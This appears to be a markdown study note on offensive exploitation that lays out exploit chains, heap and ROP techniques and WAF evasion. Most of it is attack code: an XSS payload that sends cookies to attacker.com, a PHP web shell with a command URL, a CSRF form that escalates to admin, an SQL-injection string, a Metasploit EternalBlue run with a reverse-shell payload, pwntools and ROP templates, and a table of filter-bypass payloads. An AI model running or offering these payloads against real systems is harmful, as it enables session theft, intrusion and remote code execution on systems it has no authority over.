



# Advanced Exploitation Techniques

## Overview

Modern exploitation in 2026 focuses on **multi-stage attack chains**, **heap-based memory corruption**, and **defense evasion (ASLR, DEP, WAF)**. Attackers no longer rely on single vulnerabilities but combine multiple weaknesses to achieve full system compromise. 
Key areas:

Exploit chaining (XSS → RCE, CSRF + SQLi)

Heap overflow exploitation

- Custom exploit development
  
- Defense evasion techniques
  

## Exploit Chaining (Multi-Stage Attacks)

### Attack Chain Model



---

### XSS → RCE via Session Hijacking

#### Stage 1: XSS Payload

```html
<script>
fetch("http://attacker.com/steal?c="+document.cookie)
</script>
```

#### Stage 2: Session Hijacking

```http
Cookie: PHPSESSID=stolen_session
```

#### Stage 3: Admin Impersonation

- Access admin panel
  
- Bypass authentication using stolen session
  

#### Stage 4: RCE via File Upload

```php
<?php system($_GET['cmd']); ?>
```

```bash
http://target/uploads/shell.php?cmd=id
```

#### Success Criteria

- Valid admin session obtained
  
- Remote command execution achieved
  

---

### CSRF + SQL Injection Chain

#### Attack Flow

1. CSRF forces authenticated action
  
2. SQL injection bypasses validation
  
3. Privilege escalation achieved
  

#### CSRF Payload

```html
<form action="http://target/admin/update" method="POST">
<input name="role" value="admin">
</form>
<script>document.forms[0].submit()</script>
```

#### SQL Injection

```sql
' OR 1=1--
```

#### Impact

- Admin access
  
- Database compromise
  
- Potential RCE via file write
  

---

### EternalBlue (CVE-2017-0144) Attack Chain



#### Stage Breakdown

- **SMB Overflow**: Exploits SMBv1 transaction handling
  
- **Heap Grooming**: Controls memory layout
  
- **Kernel Exploitation**: Achieves code execution
  
- **DoublePulsar**: Backdoor installation
  
- **Propagation**: Worm-like spread
  

#### Metasploit (Conceptual)

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

---

## Custom Exploit Development

### Exploit-DB PoC Modification

#### Common Variables

```python
RHOST = "192.168.1.10"
RPORT = 80
LHOST = "192.168.1.5"
LPORT = 4444
```

#### Workflow

1. Replace target parameters
  
2. Adjust offsets
  
3. Insert payload
  
4. Add reliability checks
  

---

### Pwntools Exploit Template

```python
from pwn import *

context.binary = './vuln'
p = process('./vuln')

payload = b"A" * cyclic_find(0x6161616c)
payload += p64(0xdeadbeef)

p.sendline(payload)
p.interactive()
```

---

### Heap Exploitation Concepts (TCM)

#### Heap Layout

```
[Chunk A][Chunk B][Chunk C]
```

#### Techniques

- Adjacent Chunk Overflow
  
- Use-After-Free (UAF)
  
- Tcache Poisoning
  
- Function Pointer Overwrite
  



---

### Function Pointer Overwrite

```c
void (*func)();
func = attacker_controlled;
func();
```

---

### Custom TCP Exploit (Concept)

```python
from scapy.all import *

pkt = IP(dst="target")/TCP(dport=445)/Raw(load="exploit_data")
send(pkt)
```

---

## Defense Evasion Techniques

### ASLR Bypass

#### Methods

- Information leak
  
- Partial overwrite
  
- Brute force
  

```python
leaked_addr = recv()
base = leaked_addr - offset
```

---

### DEP Bypass (ret2libc)

#### Concept

```
system("/bin/sh")
```

#### ROP Chain

```python
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)
```

---

### ROP Gadget Discovery

```bash
ROPgadget --binary vuln
```

---

### WAF Bypass Techniques

| Technique | Example |
| --- | --- |
| Encoding | `%3Cscript%3E` |
| Case Variation | `<ScRiPt>` |
| Fragmentation | `scr` + `ipt` |
| HTML Trick | `<details ontoggle=alert(1)>` |
| Base64 | `eval(atob(...))` |
| Parameter Pollution | `id=1&id=2` |
| Unicode | `\u003cscript\u003e` |
| Null Byte | `%00` |
| JSON Injection | `{ "id": "1 OR 1=1" }` |
| Header Injection | `X-Forwarded-For` |

---

## Key Takeaways

- Modern attacks rely on **chaining vulnerabilities**
  
- Heap exploitation is critical for bypassing modern protections
  
- ROP and ret2libc are essential for bypassing DEP/ASLR
  
- WAF evasion requires payload obfuscation techniques
  
- Real-world exploitation combines multiple layers into one attack chain
  

---
